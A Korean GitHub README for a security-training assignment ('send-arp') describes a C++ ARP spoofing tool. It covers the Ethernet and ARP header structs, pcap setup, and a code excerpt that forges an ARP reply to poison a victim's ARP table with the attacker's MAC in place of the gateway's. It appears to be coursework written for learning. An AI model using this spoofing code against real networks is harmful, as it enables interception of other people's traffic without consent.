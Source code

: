 # BoB 14기 보안제품개발트랙 과제 : send-arp


## 과제

Sender(Victim)의 ARP table을 변조하라.

### 실행

```cpp
syntax : send-arp <interface> <sender ip> <target ip> [<sender ip 2> <target ip 2> ...]
sample : sudo ./send-arp wlan0 10.3.3.16 10.3.3.1

```

---

- Victim(Sender)의 ARP 테이블을 조작하여 Gateway(Target)의 MAC 주소를 Attacker의 MAC으로 바꾸는 **ARP 스푸핑** 공격을 수행
- tech: `pcap_sendpacket()`으로 패킷 전송, `pcap_next_ex()`로 응답 수신

---

### 로직 설계

1. 공격자의 인터페이스에서 MAC 주소를 읽음
2. sender IP가 사용하는 MAC 주소를 얻기 위해 ARP Request를 브로드캐스트로 전송
3. sender의 ARP Reply를 수신하여 sender의 MAC 주소를 획득
4. 위 정보를 바탕으로 위조된 ARP Reply(ARP 감염 패킷)을 sender에게 전송
5. sender는 target IP에 대해 attacker MAC을 매핑함 → **ARP 테이블 변조 성공**

---

### 주요 구조체 설명

### 코드 설명

### 헤더 구조 설명 (`send-arp.h`)

### Ethernet 헤더 (`eth_hdr_t`)

```cpp
#define MAC_LEN 6
#define IP_LEN 4

```

MAC 주소(6바이트)와 IPv4 주소(4바이트)의 길이 정의

```cpp
struct eth_hdr_t {
    uint8_t dmac[6]; // 목적지 MAC
    uint8_t smac[6]; // 출발지 MAC
    uint16_t type;   // 상위 프로토콜 (0x0806: ARP)
};
```

`uint8_t`는 정확히 1바이트

MAC 주소는 6바이트이므로 `uint8_t[6]`로 표현

ARP를 위해 type 필드는 0x0806으로 설정된다. `#pragma pack(1)`은 **패딩 없이 구조체를 메모리에 붙여 저장**하도록 한다.(네트워크 패킷은 바이트 단위로 정해진 형식이기 때문)

### ARP 헤더 (`arp_hdr_t`)

```cpp
struct arp_hdr_t {
    uint16_t hrd;     // 하드웨어 타입 (1: Ethernet)
    uint16_t pro;     // 프로토콜 타입 (0x0800: IPv4)
    uint8_t hln;      // MAC 길이 (6)
    uint8_t pln;      // IP 길이 (4)
    uint16_t op;      // 1: request, 2: reply -> 오퍼레이션코드
    uint8_t smac[6];  // 출발지 MAC
    uint8_t sip[4];   // 출발지 IP
    uint8_t tmac[6];  // 목적지 MAC
    uint8_t tip[4];   // 목적지 IP
};

```

**`op` 필드로 request/reply를 구분한다.** 

### 3. send-arp.cpp

### `get_mac()`

```cpp
bool get_mac(const std::string& iface, uint8_t* mac)

```

`/sys/class/net/<iface>/address`에서 MAC 주소를 문자열로 읽고, `std::stoi(..., 16)`으로 16진수 문자열을 숫자로 변환해 byte 배열에 저장. 

`:` 제거 후 2자리씩 나눠 파싱

`pcap_open_live()`

```cpp
pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1, errbuf);
```

`BUFSIZ`: 캡처 버퍼 사이즈
`1`: promiscuous 모드로 설정 (내 MAC이 아닌 패킷도 수신 하기 위해서)
`1`: timeout(ms), 너무 짧으면 패킷을 못 받을 수 있기 때문

---

### ARP Request 패킷 구성

```cpp
memset(eth->dmac, 0xff, MAC_LEN); // 브로드캐스트
memcpy(eth->smac, attacker_mac, MAC_LEN);
eth->type = htons(0x0806);

 
```

`host to network short(htons)` : 네트워크는 Big Endian, 시스템은 Little Endian일 수 있으므로 명시적 변환을 하기 위해서

```cpp
arp->op  = htons(1); // ARP Request
inet_pton(AF_INET, target_ip, arp->sip); // source는 내가 target이라 가정
inet_pton(AF_INET, sender_ip, arp->tip); // 목적지는 sender

```

ARP Request는 이 IP 주소를 가진 장치에게  MAC 주소가 무엇인지를 묻는다.

`arp->op = htons(1);`-> ARP Request(요청) 패킷임을 명시하는 부분

***ARP 프로토콜에서 op (Operation) 필드**

| 값 | 의미 |
| --- | --- |
| 1 | ARP Request |
| 2 | ARP Reply |

*ARP 패킷은 네트워크 바이트 순서(Big Endian) 를 사용함

**ARP 요청을 sender에게 한 이유** → 목적은 sender의 MAC 주소를 얻는 것.

즉, `target_ip`에서 `sender_ip`의 MAC을 알아내는 요청을 broadcast로 뿌려 주었다. 

---

### ARP Reply 수신 (sender의 MAC 획득)

```cpp
	while (true) {
		int res = pcap_next_ex(handle, &header, &pkt);
		if (res != 1) continue;

		auto* r_eth = (eth_hdr_t*)pkt;
		auto* r_arp = (arp_hdr_t*)(pkt + sizeof(eth_hdr_t));

		if (ntohs(r_eth->type) == 0x0806 &&
			ntohs(r_arp->op) == 2 &&
			memcmp(r_arp->sip, arp->tip, IP_LEN) == 0) {
			memcpy(sender_mac, r_arp->smac, MAC_LEN);
		break;
			}
	}

```

원하는 ARP Reply가 올 때까지 while문으로 반복해주었다. 

ARP Reply 필터링해 주었다. 

패킷을 캡처하는 `pcap_next_ex()` 를 반복해서 MAC 주소를 추출한다. 

EtherType이 0x0806인지를 확인하고, ARP Reply인지(2) 확인한 뒤, 보내는 쪽 IP가 우리가 ARP 요청한 대상(sender_ip)인지 확인한다. (`sip == sender_ip`이면 응답 보낸 건 sender이다.)

---

### 위조된 ARP Reply 전송 (감염 패킷)

```cpp
arp->op  = htons(2); // ARP Reply
memcpy(arp->smac, attacker_mac, MAC_LEN);  // 출발 MAC = attacker (위조)
inet_pton(AF_INET, target_ip, arp->sip);   // 출발 IP = target (위조)
memcpy(arp->tmac, sender_mac, MAC_LEN);    // 목적 MAC = sender
inet_pton(AF_INET, sender_ip, arp->tip);   // 목적 IP = sender

```

sender에게 보내는 위조된 패킷이다.

`arp->op = htons(2);`-> ARP Reply(응답) 패킷임을 명시하는 부분이다. 

2를 넣으면 이 패킷이 ARP Reply임을 나타낸다. arp reply 패킷으로 위장해야 하므로 해당 코드를 사용한다.

---

### knowledge

| 구성 요소 | 크기 (bytes) |  
| --- | --- | --- |
| Ethernet Header | 14 bytes |  
| ARP Header | 28 bytes |  
| 합계 | **42 bytes** |

---

### **Reference**

[Attacker(자신) Mac 주소 값를 알아 내는 방법]

https://github.com/YOGYUI/Sniffets/tree/main/linux_get_mac_address/src

**GPT, Claude**

https://chatgpt.com/

https://claude.ai/

[op 1,2]

https://whatdocumentary.tistory.com/52

### Issue

---

ARP Request 보냈는데 되지 않았다. 알고보니, `op = 1` 을 그냥 넣고, `htons()` 을 넣지 않아서였다. ARP op 필드가 0x0100이 된 것이다.
